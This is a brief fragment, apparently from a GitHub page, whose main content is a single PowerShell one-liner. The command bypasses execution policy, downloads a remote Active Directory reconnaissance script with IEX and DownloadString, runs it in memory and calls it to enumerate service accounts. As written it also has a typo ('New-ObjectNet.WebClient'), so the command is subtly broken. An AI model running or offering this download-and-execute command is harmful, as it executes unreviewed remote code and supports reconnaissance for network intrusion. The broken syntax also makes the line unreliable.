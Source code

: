 
###PowerShell###

	powershell -exec bypass -Command "IEX(New-ObjectNet.WebClient).DownloadString('https://raw.githubusercontent.com/msenturk/PowerShell-AD-Recon/master/Find-PSServiceAccounts'); Find-PSServiceAccounts"

 
 

